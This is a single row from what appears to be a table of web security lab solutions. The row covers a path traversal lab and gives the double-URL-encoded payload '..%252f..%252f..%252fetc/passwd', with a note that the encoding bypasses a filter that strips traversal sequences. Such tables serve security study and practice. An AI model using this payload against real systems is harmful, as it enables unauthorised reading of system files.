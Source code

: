 |93    |File path traversal, traversal sequences stripped with superfluous URL-decode                                            |..%252f..%252f..%252fetc/passwd                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |URL encoding to bypass filter, characters will be URL-decoded and processed                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |Directory Traversal, Practitioner           |
